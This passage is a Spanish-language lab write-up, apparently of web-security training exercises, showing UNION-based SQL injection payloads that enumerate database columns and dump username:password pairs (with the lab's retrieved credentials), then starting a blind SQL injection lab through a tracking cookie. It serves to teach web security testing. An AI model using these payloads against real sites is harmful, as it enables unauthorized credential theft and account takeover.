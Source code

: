 En esta practica tendremos que hacer basicamente lo mismo que en las anteriores, conseguir las credenciales completas de todos los usuarios y entre ellas registrarnos como `admin`...

Sabiendo que sigue la misma mecanica y que las bases de datos y tablas son iguales, para comprobarlo haremos lo siguiente...

```mysql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'-- -
```

Con esto veremos su contenido para ahora mirar lo que contiene cada columna...

```
|email|
|password|
|username|
```

Para poder ver su contenido haremos lo siguiente...

```mysql
' union select NULL,username||':'||password from users-- -
```

```
administrator:hiz32i5u8t7wiuoy9zl4
|carlos:g0089e41680ml73ivdpy|
|wiener:ksdios9ully0hqld2gy6|
```

Y con esto ya podriamos registrarnos como `admin` en la pagina web...

### Lab: Blind SQL injection with conditional responses

En esta practica sera mas a ciegas, ya que no aparecera lo que estas metiendo representado en la pagina como tal, como en las anteriores practicas y tendremos que conseguir las credenciales de `admin` para logearnos...

Lo que nos dice el ejercicio es que se puede inyectar desde la coockie, para ello utilizaremos BurpSuit...

Dentro de la peticion de BurpSuit se puede hacer de mcuhas manera, la mas optima es automatizarlo con un script de `Python` o con el propio `Intruder` de BurpSuit para hacer fuerza bruta a la contraseña, pero antes de hacer todo esto hay que explicar el funcionamiento del mismo...

Como sabemos que el campo inyectable es la `coockie` en especifico el campo de `TrackingId` aparecera unas letras seguidas unas de otras, al final es donde se empieza a poner la inyeccion de la `'` por lo que el mecanismo seria de la siguiente manera...

```mysql
' and 1=1-- -;
```

o

```mysql
' and '1'='1;
```
